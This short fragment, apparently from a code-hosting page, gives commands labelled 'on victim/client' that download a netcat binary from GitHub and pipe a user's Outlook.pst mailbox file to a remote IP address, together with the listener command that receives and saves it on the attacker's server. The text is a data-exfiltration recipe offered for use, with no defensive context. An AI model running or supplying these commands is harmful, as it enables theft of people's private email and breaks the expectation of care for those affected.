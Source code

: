 On victim/client:
```bash
wget https://github.com/int0x33/nc.exe/raw/master/nc.exe -Outfile nc.exe
cmd /c 'nc.exe -w 3 23.88.111.175 80 < Outlook.pst'
```

On receiving server:

```bash
nc -l -p 80 > Outlook.pst
```
